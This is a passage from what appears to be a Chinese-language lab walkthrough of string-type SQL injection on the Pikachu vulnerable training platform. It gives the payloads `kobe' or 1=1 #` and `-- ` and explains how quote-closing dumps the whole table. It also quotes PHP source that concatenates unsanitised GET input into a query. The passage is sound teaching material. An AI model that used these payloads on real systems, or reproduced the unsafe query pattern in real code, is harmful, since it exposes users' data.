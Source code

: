 现在我们确认了，后台代码应该是以下的形式：

```sql
SELECT 字段1,字段2 from 表名 where name = '$name';
```

现在尝试构建 payload,原理是**闭合**  
**_输入`kobe' or 1=1 #`或者`kobe' or 1=1 --`(注意--后面有一个空格)_**，后台代码会变成：

```sql
SELECT 字段1,字段2 from 表名 where name = 'kobe' or 1=1 -- '
SELECT 字段1,字段2 from 表名 where name = 'kobe' or 1=1 #'
```

- 前面的`kobe'`中的单引号被闭合(有没有`kobe`无所谓，主要是**与第一个引号配对闭合**)
- 中间的`or 1=1`**构造过滤条件真**
- 后面的`-- '`(注意空格)或`#`将以后的语句注释掉(重点是**注释掉原来第二个引号**)

相当于后台代码变成了：

```sql
SELECT 字段1,字段2 from 表名 where true;
```

和前面的数字型注入一样，`where`后面的**过滤条件**永远为**真**，**输出表内所有数据**  
![sql_string_3.png](image/sql_string_3.png)

贴一下原代码,位置在`pikachu-master\vul\sqli\sqli_str.php`24 行：

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```

---

# 搜索型注入

提示输入用户名的一部分搜索的试试看
数据库中对表里的内容进行匹配性查询时，使用的语句如下：
